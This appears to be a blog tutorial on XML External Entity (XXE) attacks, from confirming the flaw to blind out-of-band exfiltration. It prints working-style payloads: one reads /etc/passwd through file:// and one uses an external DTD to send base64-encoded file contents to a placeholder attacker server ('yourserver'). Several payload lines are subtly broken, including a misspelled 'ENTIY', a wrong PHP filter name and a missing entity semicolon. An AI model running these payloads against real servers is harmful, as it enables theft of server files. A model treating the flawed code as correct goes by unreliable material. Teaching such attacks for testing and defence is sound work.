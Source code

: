 Hi all,

&nbsp;  Welcome to my blog of "From basic XXE to blind XXE"<br><br>

But first let's understand some basic keywords.
**Entity**: Entities reference data that act as an abbreviation or can be found at an external location. 

Most common entites are:-

**Internal Entity**: If an entity is declared within a DTD it is called as internal entity.<br>
*Syntax:- <!ENTITY entity_name "entity_value">*

**External Entity**: If an entity is declared outside a DTD it is called as external entity. Identified by 'SYSTEM'.<br>
*Syntax:- <!ENTITY entity_name SYSTEM "entity_value">*

**Parameter Entity**: The purpose of a parameter entity is to enable you to create reusable sections of replacement text. (If not understood, You will understand more clearly in later.)<br>
*Syntax:- <!ENTITY % entity "another entity (Internal or External)">*


## What is XXE?

XXE is a short of XML External Entity, which is a vulnerablity found when misconfiguration XML parser parses enternal entities.
There are two types of XXE:- 

1. Basic.
2. Blind.

Basic one:-

For ex you have a url with a parameter that parses XML data somthing like this:- 'http://myapp.com/somefile.php?xml=<xml_data>'

Now when you provide any xml data, and that data is printing back to the user's browser then you can try basic XXE. You have to confirm the vulnerability existence and this can be done by something like this.

Payload:- `<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'http://yourserverip/'>]><root>&test;</root>`

Now let's understand this. 

1.First we declare the xml Syntax, now, we define DOCTYPE to define the contents of XML body,<br> 
2.After that, we define root element after the DOCTYPE i.e. root, next, we define the Entity and that entity contains SYSTEM attribute which indicate that the entity is External.<br>
3.After that we define our server's ip because we want to let the target server to send the request to us.

Now when you give that payload to mis-configured XML parser, the mis-configured XML parser will parse the results and it will process our External entity by **requesting to your server.**

So if you got a new connection in the log file then it is confirmed that you have found XXE.

### Now it's time to exploit it.

Our main target is to read local files of the web server and this can be done using this payload 

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`,

The xml parser will process this payload as same as above but instead of requesting to your server now it will request to locally, with the file protocol, it will grep the file contents and shown to us. Hence, we can read local file of the webserver.

## What if the xml data is not showing to us? (Blind XXE Case)

Okay,

Still you can confirm the existence of the vulnerability by using the first payload above. But you can't see the file contents of local files of webserver. This is still an issue but now the severity is a ***little bit low.*** And, this is called Blind XXE OR Out-of-band XXE.

So we also needed to blind means we have to use blind payload.

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY % test SYSTEM 'http://yourserver/xml.dtd'> %test; %exe]><root>&entity;</root>`

Your xml.dtd contents:- 

`<!ENTITY % file SYSTEM "php://filter/convert/base64.encode/resource=/etc/passwd">`
`<!ENTIY % exe "<!ENTITY entity SYSTEM 'http://yourserver/%file;'>">`

Lot's of code to understand:-

> we are using External dtd file i.e. `%test;`. So first the xml parser will parse this entity and make a request to your web-server for getting the contents of dtd file. Now, in that dtd file we define some entities to process. 
>
> `%exe;` will make another general entity i.e. &entity; and that entity will make a request to our server with the *file contents.* which was found by the `%file;`
>
> When the xml parser parses the entity `%file;`, then that entity will grep the file contents of local files of the server (which is our main target). 
> We are using php filter to get the file contents to bypass any restrictions.
> Now attacker can log the request and reconstruct the file contents. 

Make sense?

Let's see the demo below.

<video src="bandicam 2018-11-04 23-35-26-024.mp4" width="320" height="200" controls preload></video>


